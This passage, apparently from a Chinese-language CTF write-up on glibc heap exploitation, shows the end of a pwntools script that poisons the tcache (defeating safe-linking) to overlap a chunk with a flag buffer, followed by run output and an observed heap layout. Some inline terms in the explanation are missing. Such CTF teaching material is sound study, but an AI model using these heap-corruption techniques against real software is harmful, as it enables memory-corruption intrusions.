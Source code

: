 \begin{lstlisting}[style=py]
    # --- 3. tcache poisoning ------------------------------------------
    target = heap + TCACHE_STRUCT
    edit(1, 0, p64(target ^ (heap >> 12)))    # B->fd = PROTECT(target)
    log.info('poisoned tcache[0x110]: B -> %#x', target)

    # --- 4. 兩次 malloc：B，然後是假 chunk ------------------------------
    add(2, SIZE)                 # 彈出 B
    add(3, SIZE)                 # 彈出 target -> chunks[3] = heap+0x2a0
    log.info('chunks[3] = %#x  (flag buffer)', heap + FLAG_USER)

    # --- 5. 把 flag 印出來 ---------------------------------------------
    return show(3, 0, 0x80)

io = start()
flag = exploit(io)
print(flag.decode(errors='replace'))
m = re.search(rb'flag\{[^}]*\}', flag)
log.success('FLAG = %s', m.group().decode())
io.close()
\end{lstlisting}

\subsection{執行結果}

\begin{lstlisting}[style=raw]
[+] Starting local process '.../solve/house/chal_patched': pid 1792076
[+] A = 0x557e6a38b510  (heap+0x510)   heap = 0x557e6a38b000
[*] poisoned tcache[0x110]: B -> 0x557e6a38b290
[*] chunks[3] = 0x557e6a38b2a0  (flag buffer)

flag{local_test_flag_house_of_water}
[+] FLAG = flag{local_test_flag_house_of_water}
\end{lstlisting}

\begin{keybox}
它不是我們算的，是\textbf{觀察出來的}。實測 layout：

\begin{lstlisting}[style=raw]
heap+0x000   tcache_perthread_struct   (chunk 0x290)
heap+0x290   flag chunk                (chunk 0x90)  -> user heap+0x2a0
heap+0x320   （setup 期間 fopen/fgets 用過的痕跡，已回收）
heap+0x500   A 的標頭                 (chunk 0x110) -> user heap+0x510
heap+0x610   B 的標頭                 (chunk 0x110) -> user heap+0x620
\end{lstlisting}

\textbf{為什麼 A 落在 0x510 而不是緊接 flag 之後？}
因為  期間  配了 FILE 結構、 又配了 4KB 讀取緩衝區，
 把它們還了回去，A 的  就從回收出來的位置切。

\textbf{重點是：這個數字你不需要猜對。}
腳本裡只用到 （tcache 結構，規則可推）與 （leak 來的），
 只是拿來驗算與除錯。
\end{keybox}

